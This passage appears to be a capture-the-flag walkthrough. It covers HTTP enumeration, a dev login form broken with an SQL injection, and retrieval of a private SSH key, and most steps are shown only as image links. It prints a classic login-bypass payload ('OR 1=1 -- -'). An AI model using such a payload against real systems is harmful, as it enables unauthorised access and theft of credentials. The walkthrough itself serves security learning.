








# 10 - HTTP

# index




# dev directory




# dev login form


# Internal Server Error with a single quote



# Commented out sql statement returns Not Found:



# SQL injection



# Payload
```
name=admin&pass=hallo' OR 1=1 -- -
```





# Private SSH key




Good, we have a private key, however ssh port is not open, at least it's closed for IPv4.  Let's enumerate SNMP for IPv6